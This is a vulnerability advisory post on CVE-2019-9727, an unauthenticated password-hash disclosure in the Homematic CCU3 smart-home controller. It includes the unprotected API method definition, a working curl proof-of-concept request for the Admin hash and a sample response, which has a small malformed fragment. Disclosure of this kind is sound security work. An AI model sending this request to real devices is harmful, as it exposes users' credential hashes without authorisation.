 ```yaml
---
layout: post
title: "CVE-2019-9727: Unauthenticated password hash disclosure in Homematic CCU3"
date:   2019-03-26 10:00:00
image:
      url: /assets/article_images/2016-05-30-inspec-cis-docker/cover.jpeg
video: false
comments: true
theme_color: 302F2D

author: 'Patrick Münch'

author_image: "https://avatars0.githubusercontent.com/u/7220740?s=400"
author_link: "https://twitter.com/atomiczero111"
---
```


# Overview

- Vendor: eQ-3 AG
- Product: Homematic CCU3
- Version: 3.43.15
- Vulnerability: Unauthenticated password hash disclosure

# Background

HomeMatic is a home automation system consisting of various components for automating several parts of a building, including different sensors and actuators. The HomeMatic CCU3 is a central control unit, which is responsible for integrating these components with each other.

From the vendor's website:
"The Central Control Unit CCU3 is the central element for local control of the Homematic IP smart home system. It represents the next generation of our proven Homematic Central Control Units CCU1 and CCU2. Operation via the Central Control Unit CCU3 can be used alternatively to the Homematic IP Access Point. While the Access Point establishes the connection to the free Homematic IP cloud and enables operation of the smart home system via a smartphone app, the Central Control Unit CCU3 works locally via a browser-based web interface (WebUI). Thanks to local configuration and operation as well as the option to create direct device connections, reliable and fail-proof operation of the smart home system is guaranteed at all times – even in the event of Internet failures."

# Issue Description

While analyzing the implementation of the CCU3, an Unauthenticated Password Hash Disclosure vulnerability has been identified, which can be exploited in order to retrieve the password hashes of all existing user accounts. This vulnerability can be exploited by unauthenticated attackers with access to the web interface. The system provides a JSON-RPC API, which exposes various methods. While some methods require the connecting user to be authenticated, a number of methods can also be used anonymously.

A code review of the file `/www/api/methods.conf` revealed that the `User.getUserPWD` method can be used without authentication:

~~~
User.getUserPWD {
  LEVEL NONE
  SCRIPT_FILE user/getuserpwd.tcl
  INFO {Gibt UserPWD zurück}
  ARGUMENTS {_session_id_ userID}
}
~~~

Exemplary request with a non-authenticated SID:

~~~ http
curl -X POST -k -i 'https://1.1.1.1/api/homematic.cgi' --data '{
  "version": "1.1",
  "method": "User.getUserPWD",
  "params": {
    "_session_id_": "@MagZdAHu8d@",
    "userID": "Admin"
  }
}'
~~~

Response of the Homematic CCU3:

~~~
{
  "version": "1.1",
  "result": {
      "UserPWD": "c7ad44cbad762a5da0a452f9e854fdc1e0e7a52a38015f23f3eab1d80b931dd472634dfac71cd34ebc35d16ab7fb8a90c81f975113d6c7538dc69dd8de9077ec"
  }.UserPWD,
  "error": null
}
~~~

# CVE

[CVE-2019-9727](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9727)

# CVSSv3 Base Score

CVSS Base Score: __5.9__

CVSS:3.0/AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:N/A:N

# Credit

Patrick Muench of [SVA System Vertrieb Alexander GmbH](https://www.sva.de)

Torsten Löbner of [SVA System Vertrieb Alexander GmbH](https://www.sva.de)

Pascal Keul of [SVA System Vertrieb Alexander GmbH](https://www.sva.de)

Lukas Zorn of [SVA System Vertrieb Alexander GmbH](https://www.sva.de)

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information. In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2019 SVA System Vertrieb Alexander GmbH and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
